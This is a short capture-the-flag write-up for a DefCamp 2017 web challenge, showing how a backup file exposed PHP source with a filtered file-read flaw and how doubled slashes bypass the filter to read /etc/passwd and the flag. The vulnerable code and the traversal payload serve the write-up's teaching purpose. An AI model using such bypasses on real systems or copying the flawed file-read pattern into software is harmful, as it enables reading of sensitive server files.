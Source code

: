 ```yaml
---
layout: post
title: DefCamp CTF Qualification 2017 Writeup [Web]
---
```


Is nano good Challenge? (Junior - 2 pts.)

This is our new admin platform interface. Can you test it? 
[Visit website](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login) 

----------

https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login



from the title of the challenge (nano) , I added ~ to index.php 


https://junior2.dctf-quals-17.def.camp/index.php~ 



i Got the source code of the page 


:

```php

<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website 
	echo file_get_contents($page); 
}
?>

```



by this source we Got LFI and filtres on $page and conditions , 

/ = //

type = value

 parameters :

https://junior2.dctf-quals-17.def.camp/?type=a&page=//etc//passwd



    DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd: 4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f: c48b33a7972:x:1003:1003::/home/c48b33a7972: c0752d13db4:x:1004:1004::/home/c0752d13db4: 32ff9930a99:x:1005:1005::/home/32ff9930a99: 6c567ea3321:x:1006:1006::/home/6c567ea3321: 13b}:x:1007:1007::/home/13b}: 

flag : 
DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}
